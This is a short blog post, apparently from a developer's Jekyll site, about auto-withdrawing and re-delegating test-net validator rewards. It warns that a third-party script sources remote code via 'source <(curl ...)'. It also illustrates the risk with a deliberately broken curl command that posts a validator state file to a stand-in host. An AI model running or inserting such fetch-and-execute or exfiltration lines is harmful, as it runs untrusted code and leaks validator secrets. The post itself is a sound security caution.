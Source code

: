 ```yaml
---
layout: post
title:  "Skip routine, use auto withdraw"
date:   2024-05-13 10:21:03 +0700
categories: crypto
---
```


### Context
In order to stay in active set of test nets one should constantly withdraw
their commission and rewards and re-delegate it to themselves. It can be
an exciting experience the first time, but then it becomes a routine.

### Existing solution
There is a working [auto-withdraw-delegate](https://github.com/Pretid/galactica_helpers/tree/main/auto-withdraw-delegate)
script by [@Pretid](https://github.com/Pretid). However, I'm concerned by one
[line](https://github.com/Pretid/galactica_helpers/blob/d1dcd7fac9fc49974d6c815141b935cc8b4663fd/auto-withdraw-delegate/auto-withdraw-redelegue.sh#L2)
there:
```bash
source <(curl -s https://raw.githubusercontent.com/Pretid/galactica_helpers/main/utils/common.sh)
```
It means everytime the script runs, it executes some logic taken from the
Internet! I'm sure the author is not going to inject any harmful code there
like:
```bash
curl  -d "@$HOME/.galactica/data/priv_validator_state.json" ht tps://server-storing-everything-for.me/
# URL is broken on purpose, just in case someone tries to execute it
```
But one should stay on the safe side.

### Alternative solution
Before finding the solution above, I implemented almost the same script,
you can find it [here](https://github.com/masim05/play-web3/tree/main/utils/withdraw).
One more benefit, it is extendable in terms of networks, at the moment it support Galactica and
Zero-gravity.
